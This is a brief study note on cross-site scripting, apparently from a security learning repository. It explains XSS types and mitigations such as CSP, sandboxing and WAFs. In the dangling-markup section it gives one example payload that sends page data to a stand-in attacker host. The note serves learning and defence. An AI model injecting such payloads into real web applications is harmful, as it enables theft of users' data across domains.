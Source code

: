 # Cross-Site Scripting (XSS)

** Impact **
Allows attacker to:
- circumvent same origin policy
- masquerade as victim
- access victim's data

## XSS Type

### Reflected XSS
When an application receives data in an HTTP request and includes the data in the immediate response in an unsafe way.

### Stored XSS
When an application receives data and includes the data in an unsafe manner in later responses.

### DOM XSS
When an application contains client-side JavaScript that processes data in an unsafe way.

## Extension of XSS attack

### Dangling Markup Injection
Technique for captureing data cross-domain in situations where a full XSS attack is not possible.
Inject payload like below to tags that contain value that is unfiltered.
```
"><img src='//attacker-website.com?
```

## Mitigation Type

### Content Security Policy
CSP is a set of directives that control which resources a web page can load, such as JavaScript, CSS, and images. When a website specifies a CSP, the browser blocks requests for assets that don't come from the specified sources.

### Browser Sandbox
Present the content of the webpage on another domain so if an XSS vulnerability exist the JavaScript will not execute on the important domain.

### Web Application Firewall
Using WAF to directly filter out potentially malicious input.
